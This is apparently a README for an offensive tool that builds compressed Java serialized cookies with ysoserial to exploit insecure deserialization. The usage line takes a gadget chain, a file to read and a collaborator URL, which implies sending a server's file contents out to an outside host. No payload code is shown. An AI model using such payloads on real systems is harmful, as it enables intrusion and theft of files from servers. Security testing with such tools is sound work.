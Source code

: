 # gen_java_compressed_cookie
Generation of a compressed java serialized cookie to read the given file when insecure deserialization.  
It uses ysoserial-all.jar from https://github.com/frohoff/ysoserial

## Usage
```
./gen_payload_cookie.sh <GADGET> <FILE_TO_READ> <COLLABORATOR_URL>
```
